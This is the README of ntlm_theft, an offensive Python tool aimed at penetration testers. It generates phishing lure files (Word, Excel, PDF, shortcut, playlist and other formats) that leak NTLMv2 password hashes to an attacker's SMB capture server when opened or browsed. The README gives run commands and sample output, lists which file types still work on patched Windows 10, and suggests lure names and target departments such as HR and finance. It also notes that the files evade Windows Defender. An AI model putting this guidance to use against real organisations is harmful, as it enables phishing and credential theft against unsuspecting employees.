 # ntlm_theft

A tool for generating multiple types of NTLMv2 hash theft files.

ntlm_theft is an Open Source Python3 Tool that generates 18 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network. 

The benefits of these file types over say macro based documents or exploit documents are that all of these are built using "intended functionality". None were flagged by Windows Defender Antivirus in June 2020, and 14 of the 18 attacks worked on a fully patched Windows 10 host.  

ntlm_theft supports the following attack types:

* Browse to Folder Containing
	* .url – via URL field
	* .url – via ICONFILE field
	* .scf – via ICONFILE field (Not Working on Latest Windows)
	* autorun.inf via OPEN field (Not Working on Latest Windows)
	* desktop.ini - via IconResource field (Not Working on Latest Windows)
* Open Document
	* .xml – via Microsoft Word external stylesheet
	* .xml – via Microsoft Word includepicture field
	* .htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
	* .docx – via Microsoft Word includepicture field
	* .docx – via Microsoft Word external template
	* .docx – via Microsoft Word frameset webSettings
	* .xlsx - via Microsoft Excel external cell
	* .asx – via Windows Media Player playlist (Better, primary open)
	* .m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
	* .jnlp – via Java external jar
	* .application – via any Browser (Must be served via a browser downloaded or won’t run)
* Open Document and Accept Popup
	* .pdf – via Adobe Acrobat Reader
* Click Link in Chat Program
	* .txt – formatted link to paste into Zoom chat

More information can be found in this [blogpost](https://medium.com/greenwolf-security/ntlm-theft-a-file-payload-generator-for-forced-ntlm-hash-disclosure-2d5f1fe5b964).

## Usecases (Why you want to run this)

ntlm_theft is primarily aimed at Penetration Testers and Red Teamers, who will use it to perform internal phishing on target company employees, or to mass test antivirus and email gateways. It may also be used for external phishing if outbound SMB access is allowed on the perimeter firewall.

I've found it useful while penetration testing to easily see what file types I have available to me, rather than spending time configuring a specific attack as would be used on red teaming engagements. You could send a .rtf or .docx file to the HR department, and a .xlsx spreadsheet doc to the finance department.

## Getting Started

These instructions will show you the requirements for and how to use ntlm_theft.

### Prerequisites

ntlm_theft requires Python3 and xlsxwriter:

```
pip3 install xlsxwriter
```

### Required Parameters

To start up the tool 4 parameters must be provided, an input format, the input file or folder and the basic running mode:

```
-g, --generate	: Choose to generate all files or a specific filetype
-s, --server 	: The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
-f, --filename	: The base filename without extension, can be renamed later (eg: test, Board-Meeting2020, Bonus_Payment_Q4)
```

### Example Runs

Here is an example of what a run looks like generating all files:

```
# python3 ntlm_theft.py -g all -s 127.0.0.1 -f test
Created: test/test.scf (BROWSE)
Created: test/test-(url).url (BROWSE)
Created: test/test-(icon).url (BROWSE)
Created: test/test.rtf (OPEN)
Created: test/test-(stylesheet).xml (OPEN)
Created: test/test-(fulldocx).xml (OPEN)
Created: test/test.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: test/test-(includepicture).docx (OPEN)
Created: test/test-(remotetemplate).docx (OPEN)
Created: test/test-(frameset).docx (OPEN)
Created: test/test.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: test/test.asx (OPEN)
Created: test/test.jnlp (OPEN)
Created: test/test.application (DOWNLOAD AND OPEN)
Created: test/test.pdf (OPEN AND ALLOW)
Created: test/zoom-attack-instructions.txt (PASTE TO CHAT)
Generation Complete.
```

Image showing example output in a directory with a .url file open:

![Example Run](docs/example-run.png?raw=true "Example Run")

Image showing the generated .rtf run on a Windows 10 VM, generating NTLMv2 hashes for Responder.

![Demo](docs/demo.png?raw=true "Demo")


Here is an example of what a run looks like generating only modern files:

```
# python3 ntlm_theft.py -g modern -s 127.0.0.1 -f meeting
Skipping SCF as it does not work on modern Windows
Created: meeting/meeting-(url).url (BROWSE TO FOLDER)
Created: meeting/meeting-(icon).url (BROWSE TO FOLDER)
Created: meeting/meeting.rtf (OPEN)
Created: meeting/meeting-(stylesheet).xml (OPEN)
Created: meeting/meeting-(fulldocx).xml (OPEN)
Created: meeting/meeting.htm (OPEN FROM DESKTOP WITH CHROME, IE OR EDGE)
Created: meeting/meeting-(includepicture).docx (OPEN)
Created: meeting/meeting-(remotetemplate).docx (OPEN)
Created: meeting/meeting-(frameset).docx (OPEN)
Created: meeting/meeting-(externalcell).xlsx (OPEN)
Created: meeting/meeting.m3u (OPEN IN WINDOWS MEDIA PLAYER ONLY)
Created: meeting/meeting.asx (OPEN)
Created: meeting/meeting.jnlp (OPEN)
Created: meeting/meeting.application (DOWNLOAD AND OPEN)
Created: meeting/meeting.pdf (OPEN AND ALLOW)
Skipping zoom as it does not work on the latest versions
Skipping Autorun.inf as it does not work on modern Windows
Skipping desktop.ini as it does not work on modern Windows
Generation Complete.
```

Here is an example of what a run looks like generating only a xlsx file:

```
# python3 ntlm_theft.py -g xlsx -s 192.168.1.103 -f Bonus_Payment_Q4
Created: Bonus_Payment_Q4/Bonus_Payment_Q4-(externalcell).xlsx (OPEN)
Generation Complete.
```

## Future Updates

* Add another parameter to change path & file which is requested to user specified to further avoid detections.

## Authors

* **Jacob Wilkin** - *Research and Development*

## License

ntlm_theft
Created by Jacob Wilkin
Copyright (C) 2020 Jacob Wilkin
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments

* [Ired](https://ired.team/offensive-security/initial-access/t1187-forced-authentication)
* [Securify](https://www.securify.nl/blog/SFY20180501/living-off-the-land_-stealing-netntlm-hashes.html)
* [Pentestlab](https://pentestlab.blog/2017/12/18/microsoft-office-ntlm-hashes-via-frameset/)
* [deepzec](https://github.com/deepzec/Bad-Pdf/blob/master/badpdf.py)
* [rocketscientist911](https://github.com/rocketscientist911/excel-ntlmv2)
* [Osanda](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)
